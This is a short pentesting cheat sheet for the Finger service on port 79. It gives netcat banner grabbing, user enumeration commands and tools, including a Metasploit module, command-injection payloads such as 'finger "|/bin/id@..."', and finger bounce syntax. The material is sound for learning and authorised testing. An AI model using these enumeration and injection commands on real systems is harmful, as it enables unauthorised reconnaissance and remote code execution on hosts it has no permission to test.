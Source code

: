 ```yaml
---
title: Finger Pentesting Best Practices
categories: [pentesting protocols,finger]
tags: [pentesting,finger,best practicies]
comments: true
---
```


# Finger

> Finger usually uses port 79
{: .prompt-tip }

# What is Finger?

Finger is a program you can use to find information about computer users. It usually lists the login name, the full name, and possibly other details about the user you are fingering. These details may include the office location and phone number (if known), login time, idle time, time mail was last read, and the user's plan and project files.

```bash
PORT     STATE SERVICE               VERSION
79/tcp   open  fing                  Debian fingerd 
```

# Finger Pentesting

| <img src="https://www.shodan.io/static/img/favicon.png" alt="https://www.shodan.io/static/img/favicon.png" width="20px" /> Shodan search query : |
| --- |
| port:79 |

## Banner Grabbing

```bash
nc -vn 10.10.x.x 79
echo "root" | nc -vn 10.10.x.x 79
```

## Finger Credentials

### User Enumeration

```bash
finger @10.10.x.x      #List users
finger admin@10.10.x.x #Get info of user
finger user@10.10.x.x  #Get info of user

#########
finger admin@192.186.x.x 
Login: admin                            Name: Jhon Doe 
Directory: /home/admin                  Shell: /bin/bash 
Never logged in. 
No mail. 
No Plan.
```

### Alternatively you can use finger-user-enum from pentestmonkey, some examples:

Download script and run it with a wordlist: [HERE](https://github.com/pentestmonkey/finger-user-enum/blob/master/finger-user-enum-user-docs.pdf)

`finger-user-enum.pl` is a tool for enumerating OS-level user accounts via the finger service. As of release v1.0 it is known to work against the default Solaris daemon. It may not yet work against all daemons since there is no defined format for the data returned by the finger service.

```bash
finger-user-enum.pl -U users.txt -t 10.10.x.x
finger-user-enum.pl -u root -t 10.10.x.x
finger-user-enum.pl -U users.txt -T ips.txt
```

![Untitled](/assets/img/pitcures/finger/finger.png)

### Metasploit module for user enumeration

```bash
msf > use auxiliary/scanner/finger/finger_users
```

![Untitled](/assets/img/pitcures/finger/finger1.png)

## Code Execution

```bash
finger "|/bin/id@10.10.x.x"
finger "|/bin/ls -a /@10.10.x.x"
```

## Finger Bounce

```bash
finger user@host@victim
finger @internal@external
```